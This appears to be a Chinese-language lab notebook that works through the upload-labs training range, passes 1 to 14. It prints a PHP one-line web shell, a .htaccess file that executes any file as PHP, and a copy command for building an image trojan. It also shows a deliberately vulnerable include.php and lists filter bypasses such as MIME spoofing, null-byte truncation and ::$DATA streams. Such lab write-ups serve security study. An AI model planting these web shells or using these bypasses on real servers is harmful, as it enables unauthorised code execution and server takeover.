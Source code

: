 ```yaml
---
title: upload-libs实验笔记
date: 2022-03-02 11:05:33
updated: 2022-03-02 11:05:33
categories: notebook
tags:
urlname:
keywords: upload,pass
---
```

<!--more-->
准备文件：

shell.php

```php
<?php @eval($_POST['hummer']);?>
```

.htaccess

```
<FilesMatch "">
SetHandler application/x-httpd-php
</FilesMatch>
```



### Pass-1

客户端js绕过

①禁用浏览器的js功能

②上传shell.jpg，通过BurpSuit抓包后将文件名修改为shell.php后发送即可

### Pass-2

第二关在上传文件时会检查文件的MIME，在抓包后修改Content-Type为：image/jpg即可

### Pass-3

第三关为黑名单绕过

![](https://s2.loli.net/2022/03/01/k6OrzCVlUxsDe4J.png)

①将shell.php后缀名修改为php3上传即可

②首先上传.htaccess文件，在上传shell.jpg文件。此时服务器会将任意文件中的内容当做php代码执行

### Pass-4

![](https://s2.loli.net/2022/03/01/DpyRGCNauObKAUc.png)

① 可以看到本pass并没有将htaccess后缀名列入黑名单中，因此可以通过Pass-3中的②方法绕过

00截断条件：

- php版本小于5.3.29
- magic_quotes_gpc = Off

②利用0x00截断，首先上传shell.php.jpg，然后抓包

![](https://s2.loli.net/2022/03/01/gMmVZbPE8OWs94J.png)

将文件名最后一个点改为00，将.jpg截断后上传

③

```
利用PHP 和 Windows环境的叠加特性，以下符号在正则匹配时的相等性：
双引号"     =   点号.
大于符号>   =   问号?
小于符号<   =   星号*
```

上传shell.php:.jpg，上传后文件名变为shell.php，但是文件里面的内容为空。我们继续上传文件shell.<,内容为我们的一句话木马，将服务器中的shell.php内容覆盖



### Pass-5

文件名后缀大小写混合绕过。`shell.php`改成`shell.phP`然后上传

### Pass-6

在文件名后面添加一个空格，使黑名单匹配不到，上传到服务器后自动将空格删除

![](https://s2.loli.net/2022/03/01/UbJQ15eNatduORW.png)

### Pass-7

查看源码可知，没有删除文件后面的点，可以在文件后面加一个点绕过黑名单，原理同Pass-6.

![](https://s2.loli.net/2022/03/01/HhzMRgOAkIlBvx4.png)

可以发现在返回的数据包中，返回的文件名后面还是有点的，但是查看服务器对应文件夹中已经上传的文件发现是没有点的。因此可以通过菜刀或蚁剑连接

![](https://s2.loli.net/2022/03/01/ni8DHCJg2VuYfLq.png)

### Pass-8

Windows文件流特性绕过，文件名改成`08.php::$DATA`，上传成功后保存的文件名其实是`08.php`

![](https://s2.loli.net/2022/03/01/pk9KA714SrG5Flm.png)

上传后服务器中文件如图

![](https://s2.loli.net/2022/03/01/Y4JqIDMHb6CQvUy.png)

### Pass-9

查看源码，发现对文件名末尾的点和空格都进行了处理，我们可以通过在文件后添加```点```+```空格```+```点```进行绕过，即```shell.php. .```最后上传到服务器上的仍然是shell.php

### Pass-10

![](https://s2.loli.net/2022/03/01/5RTCQf2x9do1py3.png)

由上图可知，源码中对进制上传的文件名后缀替换为了空，因此我们可以通过双写文件名后缀绕过

![](https://s2.loli.net/2022/03/01/7G6hyqwXvVs1ZT9.png)

### Pass-11

%00截断条件：

- php版本小于5.3.29
- magic_quotes_gpc = Off

本pass上传目录可以控制

先上传shell.jpg，再抓包利用上传目录名将上传的文件名截断

![](https://s2.loli.net/2022/03/01/TvrRPENDgo9fXZ4.png)

### Pass-12

同pass11，请求方式由get变为post，利用0x00截断

![](https://s2.loli.net/2022/03/01/2ITNWV1FfDCv9zA.png)

### Pass-13

制作图片马

```bat
copy shell.jpg /b + shell.php /a muma.jpg
```

![](https://s2.loli.net/2022/03/02/V27AjU6LltYHfIg.png)

上传生成的```muma.jpg```

配合文件包含漏洞进行连接即可

include.php内容如下：用于包含文件muma.jpg

```php
 <?php
/*
本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
*/
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
?> 
```

访问

```http://127.0.0.1/upload/upload/include.php?file=4920220302095833.jpg```

即可成功包含

![](https://s2.loli.net/2022/03/02/Oea1EtwXMs8HSnz.png)

### Pass-14

![](https://s2.loli.net/2022/03/02/Vf6leNsGBjFY38c.png)



利用方法同Pass-13



### 方法总结：

1.绕过JS：

​	①禁用浏览器js

​	②通过Burp抓包修改文件名

2.绕过MIME：

​	①抓包修改Content-Type

3.绕过黑名单

​	①后缀名大小写绕过（PhP,php3,php4)

​	②上传.htaccess文件

​	③采用%00截断或者0x00截断，截断后缀名

​	④在文件后缀名后添加```点```/```空格```/```点+空格+点```

​	⑤shell.php::$DATA

​	⑥文件路径可控时利用%00截断

4.制作图片马配合文件包含漏洞远程连接
